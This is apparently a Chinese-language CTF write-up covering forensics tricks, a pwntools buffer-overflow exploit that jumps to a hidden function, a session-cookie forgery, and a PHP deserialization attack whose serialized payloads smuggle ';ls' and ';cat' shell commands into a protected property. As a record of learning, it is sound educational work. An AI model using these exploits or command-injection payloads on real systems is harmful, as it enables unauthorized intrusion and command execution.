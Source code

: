 # MyFirstCTF

隨意紀錄一下比賽學到的知識與技巧，只紀錄印象較深刻的題目

## forensic

原圖放在forensic目錄

### 0x01

有一張用binwalk看一下 發現圖片中有另外一張圖片

> dd if=`input_file` of=`output_file` skip=`offset_size` bs=1

即可拿到圖片

### 0x02

用mac看來看去看不出端倪 結果用windoes 右鍵內容 flag藏在註解裡面

### 0x03

pdf裡面藏白色文字 全選起來用editor解答

## Pwn

### 0x01 (BOF)

有一點久沒寫exploits生疏了 這題順便紀錄一下

先用gdb info func

看到一個可疑函式 位置在`0x004006b6`

利用BOF讓ret跳轉到0x004006b6


![bof](https://i.imgur.com/vLsNCR9.png)

```python
from pwn import *

r = remote('140.110.112.29',2114)

print(r.recvline())

playload = "A"*56 + p64(0x004006b6)

r.send(playload)

r.interactive()

```


### 0x02 (math)

要在60秒內解完100題數學題 簡單的考你會不會寫程式跟使用pwntools而已

```python

from pwn import *
r = remote('140.110.112.29',5119)
r.recvline() #Can you help us?
r.recvline()


print(r.recvline())

for i in range(100):
	print(r.recvline())

	s = r.recvline()

	one = s.split('?')
	print(one)
	two = one[1].split('=')
	print(two)

	if(int(one[0]) + int(two[0]) == int(two[1])):
		print('+')
		r.sendline('+')
	elif(int(one[0]) - int(two[0]) == int(two[1])):
		print('-')
		r.sendline('-')
	elif(int(one[0]) * int(two[0]) == int(two[1])):
		print('*')
		r.sendline('*')

print(r.recvline())

```

## Web

### 0x01 (session)

用brup抓包

觀察提示的使用者 clara 的封包

=PZge c JryZ l TvNv a Fbgs r eBYt a

只是使用者名稱混雜一些字元

於是把clara的部分admin即可

改完後 `=PZgeaJryZdTvNvmFbgsieBYtn`

requestt出去就拿到flag了

### 0x02 (serialize)

將`__wakeup`中的this改成想要執行的指令(wakup函式在反序列化時一定會執行)

```php
<?php

class MyFirstCTF {
    protected $test = "CTF";
    function __wakeup()
    {
        // print "Wake up yo!<br>";
        // system("echo ".$this->test);
    }
}
$obj = new MyFirstCTF();
$obj->test=";ls";
$ser = serialize($obj);

printf($ser);


// $input = $_GET['str'];
// $kb = unserialize($input);
?>
```
print出來的字串是`O:10:"MyFirstCTF":1:{s:4:"test";s:3:";ls";}`

但是丟出去之後沒反應

猜測應該是protected的關係

[參考這篇文章](https://www.cnblogs.com/Mrsm1th/p/6835592.html)

所以要加 `\00*\00` 並且加上3(長度) 變成 `O:10:"MyFirstCTF":1:{s:7:"%00*%00test";s:3:";ls";}`

噴出 `Th1s_1S_f1ag__________________y0 index.html index.php`

再丟一波 `O:10:"MyFirstCTF":1:{s:7:"%00*%00test";s:37:";cat Th1s_1S_f1ag__________________y0";}`

解答

文章重點

不同類型變數序列化的值不一樣 但是看起來沒差 以protected 因為是null byte 所以要自己加 '\00*\00' 長度多3
```
private的参数被反序列化后变成 \00test\00test1 
public的参数变成 test2   p
rotected的参数变成 \00*\00test3 
```

### 0x03 (SSTI)
### 0x04 (XXE)
